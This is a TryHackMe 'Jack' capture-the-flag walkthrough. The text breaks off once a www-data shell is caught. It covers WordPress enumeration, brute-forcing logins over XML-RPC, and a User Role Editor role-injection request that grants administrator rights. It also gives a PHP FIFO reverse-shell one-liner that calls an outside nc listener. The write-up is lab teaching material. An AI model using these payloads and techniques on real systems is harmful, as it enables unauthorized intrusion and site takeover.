



# TryHackMe: Jack — Complete Walkthrough & Writeup

- **Target Machine:** 10.49.180.45
- **Platform:** [TryHackMe](https://tryhackme.com/room/jack)
- **Difficulty:** Hard
- **OS:** Linux (Ubuntu 16.04 LTS / Xenial)
- **Key Concepts / Attack Vector:** 
  - Network Reconnaissance & Port Scanning (RustScan, Nmap)
  - Web & Content Management System Enumeration (WordPress 5.3.2, WPScan)
  - Fast XML-RPC Multicall Password Brute-Forcing (`fasttrack.txt`)
  - WordPress Plugin Privilege Escalation (User Role Editor Mass Assignment)
  - Arbitrary Code Execution via WordPress Plugin Editor
  - Insecure Backup File Permissions (`/var/backups/id_rsa` with 777 permissions)
  - SSH Lateral Movement to User `jack`
  - Python Module Hijacking (`/usr/lib/python2.7/os.py`) via Supplementary Group Privileges (`family`)
  - Scheduled Background Task Exploitation to Full Root Compromise

---

## Executive Summary

The **Jack** machine on TryHackMe is an Ubuntu Linux host running a vulnerable WordPress instance alongside an OpenSSH management daemon. 

Initial network discovery identifies open ports 22 (SSH) and 80 (HTTP). Web application enumeration using **WPScan** identifies three valid WordPress user accounts: `jack`, `wendy`, and `danny`. Leveraging the enabled `xmlrpc.php` interface, a high-speed dictionary attack against `fasttrack.txt` cracks the credentials for user `wendy` (`wendy:changelater`).

Although `wendy` has low-privileged Subscriber permissions upon initial authentication, the WordPress deployment utilizes an outdated version of the **User Role Editor** plugin. This plugin fails to restrict role assignment parameters on profile updates. By intercepting a profile submission in Burp Suite and injecting `&ure_other_roles=administrator`, the account is immediately elevated to full WordPress Administrator status.

With administrative access, the web console's built-in **Plugin Editor** allows direct modification of installed plugin PHP source files. Injecting a FIFO-based reverse shell payload and activating the plugin yields an interactive shell as `www-data`, caught and managed using the `penelope` reverse shell handler.

Internal enumeration reveals a warning note in `/home/jack/reminder.txt` referencing dangerous file permissions in system backups. An inspection of `/var/backups` exposes Jack's private SSH key (`id_rsa`) configured with full read, write, and execute permissions (`-rwxrwxrwx`). Transferring this key enables passwordless SSH login as `jack` and extraction of `user.txt`.

Privilege escalation analysis of user `jack` highlights membership in the supplementary group `family` (`GID 1001`). Examination of `/opt/statuscheck/` identifies an automated script, `checker.py`, executing periodically and importing the standard Python `os` library. Investigating Python library permissions reveals that `/usr/lib/python2.7/os.py` is group-owned by `family` with group write permissions (`-rw-rw-r-x`). Appending a Python reverse shell directly into `os.py` causes the automated process to load and execute our payload with root privileges, returning a root shell to our `nc` listener and securing the final flag (`root.txt`).

---

## Attack Flow Overview

```
[Port Scanning & Host Discovery]
       │  (Ports 22, 80 / WordPress 5.3.2)
       ▼
[WordPress User Enumeration via WPScan]
       │  (Discovered: jack, wendy, danny)
       ▼
[XML-RPC Password Brute Force]
       │  (wendy : changelater)
       ▼
[WordPress Privilege Escalation (User Role Editor)]
       │  (Inject parameter: &ure_other_roles=administrator)
       ▼
[Remote Code Execution via Plugin Editor]
       │  (Inject PHP reverse shell payload -> Penelope listener)
       ▼
[Initial Foothold as www-data]
       │  (Read /home/jack/reminder.txt & find backup permissions flaw)
       ▼
[Sensitive Backup Exposure: /var/backups/id_rsa]
       │  (World-readable/writable SSH key -> Download -> SSH login)
       ▼
[Lateral Movement to User jack]
       │  (Capture user.txt & identify 'family' supplementary group)
       ▼
[Python Module Hijacking: /usr/lib/python2.7/os.py]
       │  (Writable by group 'family' -> backdoored with socket reverse shell)
       ▼
[Automated Root Execution (/opt/statuscheck/checker.py)]
       │  (Root imports backdoored os.py -> Root callback)
       ▼
[Full Root Compromise: root.txt]
```

---

## Phase 1: Reconnaissance & Port Scanning

### Network Discovery & Host Resolution

To ensure that HTTP virtual host routing and WordPress URL generation function correctly during enumeration and browser navigation, map the target machine's IP address (`10.49.180.45`) to the virtual host domain `jack.thm` inside `/etc/hosts`:

```bash
echo "10.49.180.45 jack.thm" | sudo tee -a /etc/hosts
```

An aggressive port scan was executed using **RustScan** to rapidly scan the entire TCP port spectrum, piping open ports into **Nmap** for service detection, default script scanning, and OS fingerprinting (`-sV -sC -sS -A -O`).

```
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Jack]
└─$ rustscan -a 10.49.180.45 --ulimit 5000 -- -sV -sC -sS -A -O
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/alphax/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.49.180.45:22
Open 10.49.180.45:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sV -sC -sS -A -O" on ip 10.49.180.45
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-29 12:07 +0530
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:07
Completed NSE at 12:07, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:07
Completed NSE at 12:07, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:07
Completed NSE at 12:07, 0.00s elapsed
Initiating Ping Scan at 12:07
Scanning 10.49.180.45 [4 ports]
Completed Ping Scan at 12:07, 0.10s elapsed (1 total hosts)
mass_dns: Using DNS server 8.8.8.8
mass_dns: Using DNS server 8.8.4.4
mass_dns: Using DNS server 2409:40c1:6009:61af:ee91:61ff:fe0e:861e
Initiating Parallel DNS resolution of 1 host. at 12:07
mass_dns: 0.00s 1/1 [#: 3, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, SY: 0]
Completed Parallel DNS resolution of 1 host. at 12:07, 0.50s elapsed
Initiating SYN Stealth Scan at 12:07
Scanning 10.49.180.45 [2 ports]
Discovered open port 80/tcp on 10.49.180.45
Discovered open port 22/tcp on 10.49.180.45
Completed SYN Stealth Scan at 12:07, 0.09s elapsed (2 total ports)
Initiating Service scan at 12:07
Scanning 2 services on 10.49.180.45
Completed Service scan at 12:07, 6.37s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.49.180.45
Retrying OS detection (try #2) against 10.49.180.45
Initiating Traceroute at 12:07
Completed Traceroute at 12:07, 3.01s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 12:07
mass_dns: 0.00s 2/2 [#: 3, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, SY: 0]
Completed Parallel DNS resolution of 2 hosts. at 12:07, 0.50s elapsed
NSE: Script scanning 10.49.180.45.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:07
Completed NSE at 12:07, 2.63s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:07
Completed NSE at 12:07, 0.29s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:07
Completed NSE at 12:07, 0.00s elapsed
Nmap scan report for 10.49.180.45
Host is up, received reset ttl 62 (0.071s latency).
Scanned at 2026-10-29 12:07:05 IST for 17s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:79:78:08:93:31:d0:83:7f:e2:bc:b6:14:bf:5d:9b (RSA)
|   256 3a:67:9f:af:7e:66:fa:e3:f8:c7:54:49:63:38:a2:93 (ECDSA)
|_  256 8c:ef:55:b0:23:73:2c:14:09:45:22:ac:84:cb:40:d2 (ED25519)
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-generator: WordPress 5.3.2
|_http-title: Jack&#039;s Personal Site &#8211; Blog for Jacks writing adven...
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.8 - 3.16 (96%), Linux 3.10 - 3.13 (96%), Linux 3.13 (96%), Linux 4.4 (96%), Linux 5.4 (96%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 6.0 - 9.0 (Linux 3.18 - 4.4) (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.991%E=4%D=10/29%OT=22%CT=%CU=35797%PV=Y%DS=3%DC=T%G=N%TM=6AE2E9A2%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)
SEQ(SP=FB%GCD=1%ISR=101%TI=Z%CI=I%TS=8)
OPS(O1=M4E8ST11NW7%O2=M4E8ST11NW7%O3=M4E8NNT11NW7%O4=M4E8ST11NW7%O5=M4E8ST11NW7%O6=M4E8ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=Y%DF=Y%T=40%W=6903%O=M4E8NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=N)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 192.674 days (since Sun Apr 19 19:57:10 2026)
Network Distance: 3 hops
TCP Sequence Prediction: Difficulty=251 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   92.77 ms 192.168.128.1
2   ...
3   97.42 ms 10.49.180.45

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 12:07
Completed NSE at 12:07, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 12:07
Completed NSE at 12:07, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 12:07
Completed NSE at 12:07, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.47 seconds
           Raw packets sent: 68 (5.302KB) | Rcvd: 47 (5.294KB)
```

### Port Scan Analysis

| Port | Protocol | Service | State | Software Version | Security Assessment |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **22** | TCP | SSH | Open | OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 | Standard administrative remote shell. Ubuntu Xenial packaging indicates Linux 16.04 LTS. Password or key required. |
| **80** | TCP | HTTP | Open | Apache httpd 2.4.18 (Ubuntu) | Web server running **WordPress 5.3.2** under the title *"Jack's Personal Site"*. This is the primary initial attack surface. |

---

## Phase 2: Web Enumeration

### Investigating robots.txt

We retrieve the web server's `/robots.txt` configuration to identify paths intentionally shielded from web search crawlers:

```
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Jack]
└─$ curl -s http://10.49.180.45/robots.txt

User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
```

The file reveals the expected standard WordPress administration paths (`/wp-admin/` and `/wp-admin/admin-ajax.php`).

### Targeted WordPress Enumeration via WPScan

We launch **WPScan** against the site `http://jack.thm` with user enumeration enabled (`-e u`) to extract metadata, plugin installations, active themes, and registered author accounts:

```
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Jack]
└─$ wpscan --url http://jack.thm -e u               
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                  WordPress Security Scanner
                         Version 4.1.0
                    An Automattic endeavor
                    https://automattic.com
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]Y
[i] Updating the Database ...
[i] Update completed.

[+] URL: http://jack.thm/ [10.49.180.45]
[+] Started: Thu Oct 29 12:12:46 2026
[+] Command Line: wpscan --url http://jack.thm -e u
[+] Hostname: soulless

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://jack.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://jack.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://jack.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://jack.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://jack.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.3.2 identified (Insecure, released on 2019-12-18).
 | Found By: Rss Generator (Passive Detection)
 |  - http://jack.thm/index.php/feed/, <generator>https://wordpress.org/?v=5.3.2</generator>
 | Confirmed By: Rss Generator (Passive Detection)
 |  - http://jack.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.3.2</generator>

[+] WordPress theme in use: online-portfolio
 | Location: http://jack.thm/wp-content/themes/online-portfolio/
 | Last Updated: 2024-02-04 6:30pm GMT (2 years ago, per WordPress.org)
 | Active Installs: 200 (per WordPress.org)
 | Readme: http://jack.thm/wp-content/themes/online-portfolio/readme.txt
 | [!] The version is out of date, the latest version is 0.1.1
 | Style URL: http://jack.thm/wp-content/themes/online-portfolio/style.css?ver=5.3.2
 | Style Name: Online Portfolio
 | Style URI: https://www.amplethemes.com/downloads/online-protfolio/
 | Description: Online Portfolio WordPress portfolio theme for building personal website. You can take full advantag...
 | Author: Ample Themes
 | Author URI: https://amplethemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 0.0.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://jack.thm/wp-content/themes/online-portfolio/style.css?ver=5.3.2, Match: 'Version: 0.0.7'

[+] Enumerating Users (via Passive and Aggressive Methods)

[+] jack
 | Found By: Rss Generator (Passive Detection)

[+] danny
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] wendy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 Brute Forcing Author IDs - Time: 00:00:00 <================> (10 / 10) 100.00% Time: 00:00:00
[i] 3 user(s) Identified.
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Thu Oct 29 12:12:55 2026
[+] Requests Done: 70
[+] Cached Requests: 9
[+] Most response codes received: 200: 40, 404: 25, 500: 2, 302: 1, failed: 1
[+] Data Sent: 16.054 KB
[+] Data Received: 16.92 MB
[+] Memory used: 186.609 MB
[+] Elapsed time: 00:00:08
```

### Enumeration Findings & Target Profiling

The scan provides crucial intelligence:
1. **CMS Core Version:** WordPress **5.3.2** (Legacy build released in December 2019).
2. **Active XML-RPC Endpoint:** Accessible at `http://jack.thm/xmlrpc.php`. This allows batch authentication brute forcing via `system.multicall`.
3. **Identified Users:** Through RSS generation and Author ID brute forcing, three distinct usernames are confirmed:
   - `jack`
   - `wendy`
   - `danny`

We write these usernames to a text file `users.txt`:

```
jack
wendy
danny
```

```bash
cat << 'EOF' > users.txt
jack
wendy
danny
EOF
```

---

## Phase 3: Credential Brute-Forcing via XML-RPC

WordPress `xmlrpc.php` exposes the `wp.getUsersBlogs` and `system.multicall` methods, allowing multiple credential pairs to be verified in a single HTTP POST request. This bypasses standard web application rate limits and speeds up password attacks significantly.

We run **WPScan** with our enumerated `users.txt` and the `fasttrack.txt` dictionary (`/usr/share/wordlists/fasttrack.txt`):

```
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Jack]
└─$ wpscan -U users.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                  WordPress Security Scanner
                         Version 4.1.0
                    An Automattic endeavor
                    https://automattic.com
_______________________________________________________________

[+] URL: http://jack.thm/ [10.49.180.45]
[+] Started: Thu Oct 29 12:20:25 2026
[+] Command Line: wpscan -U users.txt -P /usr/share/wordlists/fasttrack.txt --url http://jack.thm
[+] Hostname: soulless

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://jack.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://jack.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://jack.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://jack.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://jack.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.3.2 identified (Insecure, released on 2019-12-18).
 | Found By: Rss Generator (Passive Detection)
 |  - http://jack.thm/index.php/feed/, <generator>https://wordpress.org/?v=5.3.2</generator>
 | Confirmed By: Rss Generator (Passive Detection)
 |  - http://jack.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.3.2</generator>

[+] WordPress theme in use: online-portfolio
 | Location: http://jack.thm/wp-content/themes/online-portfolio/
 | Last Updated: 2024-02-04 6:30pm GMT (2 years ago, per WordPress.org)
 | Active Installs: 200 (per WordPress.org)
 | Readme: http://jack.thm/wp-content/themes/online-portfolio/readme.txt
 | [!] The version is out of date, the latest version is 0.1.1
 | Style URL: http://jack.thm/wp-content/themes/online-portfolio/style.css?ver=5.3.2
 | Style Name: Online Portfolio
 | Style URI: https://www.amplethemes.com/downloads/online-protfolio/
 | Description: Online Portfolio WordPress portfolio theme for building personal website. You can take full advantag...
 | Author: Ample Themes
 | Author URI: https://amplethemes.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 0.0.7 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://jack.thm/wp-content/themes/online-portfolio/style.css?ver=5.3.2, Match: 'Version: 0.0.7'

[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - wendy / changelater                                                               
Trying danny / starwars Time: 00:00:30 <==================> (766 / 766) 100.00% Time: 00:00:30

[!] Valid Combinations Found:
 | Username: wendy, Password: changelater

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Thu Oct 29 12:20:58 2026
[+] Requests Done: 770
[+] Cached Requests: 37
[+] Most response codes received: 200: 769, 404: 1
[+] Data Sent: 391.179 KB
[+] Data Received: 483.592 KB
[+] Memory used: 204.461 MB
[+] Elapsed time: 00:00:32
```

The attack yields valid credentials:
- **Username:** `wendy`
- **Password:** `changelater`

---

## Phase 4: Web Application Privilege Escalation

We navigate to `http://jack.thm/wp-login.php` and authenticate using `wendy:changelater`.



### Evaluating Account Privileges

Upon authentication, Wendy's dashboard displays minimal functionality. She is assigned the low-privileged **Subscriber** role, restricting her from editing themes, installing plugins, or modifying posts.



### Exploiting User Role Editor Parameter Tampering

Inspecting page elements and network traffic reveals that the site has the **User Role Editor (URE)** plugin installed. Outdated iterations of this plugin contain a critical privilege escalation flaw caused by insecure parameter binding on profile updates.

When updating user details via `/wp-admin/profile.php`, the plugin inspects the request parameters for supplementary roles assigned via the `ure_other_roles` key. Due to insufficient authorization checks, the backend applies this parameter to the current user even when the request originates from a standard non-admin account.

#### Exploitation Procedure:
1. Navigate to Wendy's **Profile** screen (`http://jack.thm/wp-admin/profile.php`).
2. Configure your browser to proxy traffic through **Burp Suite** and toggle **Intercept On**.
3. Modify any editable field (such as First Name, Last Name, or Description) and click **Update Profile**.
4. In Burp Suite, inspect the intercepted `POST /wp-admin/profile.php` request.
5. Append the role injection parameter to the end of the POST body:

```txt
&ure_other_roles=administrator
```

#### Full Intercepted HTTP Request

```http
POST /wp-admin/profile.php HTTP/1.1
Host: jack.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Referer: http://jack.thm/wp-admin/profile.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 318
Origin: http://jack.thm
Connection: keep-alive
Cookie: wordpress_07f87507b491ce41808428c8c499655c=wendy%7C1793430110%7CCjKHa04y7wc79LLZCJbkn8vsEJdhQlIOSgjqed0Ue3S%7C4e5fe34ff1f4438344f1991a9abae134472ab054cf25ced50305c5c69eb18c17; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_07f87507b491ce41808428c8c499655c=wendy%7C1793430110%7CCjKHa04y7wc79LLZCJbkn8vsEJdhQlIOSgjqed0Ue3S%7C6bfd993dbd9845d21535be5cac32f9d21a63a2354e547d4928797f51fd45a265; wp-settings-time-2=1793257310
Upgrade-Insecure-Requests: 1
Priority: u=0, i

_wpnonce=69744bdac0&_wp_http_referer=%2Fwp-admin%2Fprofile.php&from=profile&checkuser_id=2&color-nonce=3e128cedb3&admin_color=fresh&admin_bar_front=1&first_name=a&last_name=b&nickname=wendy&display_name=wendy&email=wendy%40tryhackme.com&url=&description=avfb&pass1=&pass2=&action=update&user_id=2&submit=Update+Profile&ure_other_roles=administrator
```

Click **Forward** in Burp Suite. Upon reload, Wendy's account is granted full **Administrator** privileges, unlocking access to the complete WordPress administrative dashboard including **Plugins**, **Users**, and **Settings**.



---

## Phase 5: Initial Foothold via Plugin Editor

With administrator privileges established, we can execute arbitrary system commands on the host by weaponizing the WordPress **Plugin Editor**.

1. In the administrative sidebar, go to **Plugins** -> **Plugin Editor**.
2. Select an installed plugin (such as `user-role-editor` or `akismet`).
3. Insert a PHP reverse shell payload at the beginning of the plugin file:

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.142.57 4444 >/tmp/f'); ?>
```

4. Click **Update File** to write the modified code to disk.
5. Launch a reverse shell handler on your attacking workstation. We use **Penelope** listening on port `4444`:

```
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Jack]
└─$ penelope               
[+] Listening for reverse shells on 0.0.0.0:4444 -> 127.0.0.1 • 192.168.31.83 • 192.168.142.57
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)

(Penelope)>
```

6. In WordPress, navigate to the **Installed Plugins** page and click **Activate** on the edited plugin (or directly query its URI via `curl`). This triggers PHP execution of the embedded system command.

### Receiving the Reverse Shell

The payload connects back to Penelope, which automatically stabilizes the shell and upgrades the session to a fully interactive PTY using Python 3:

```text
┌──(alphax㉿soulless)-[~/…/Cyber-Platforms/TryHackMe/CTF/Jack]
└─$ penelope               
[+] Listening for reverse shells on 0.0.0.0:4444 -> 127.0.0.1 • 192.168.31.83 • 192.168.142.57
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)

[+] [New Reverse Shell] => jack 10.49.180.45 Linux-x86_64 👤 www-data(33) 😍️ Session ID <1>
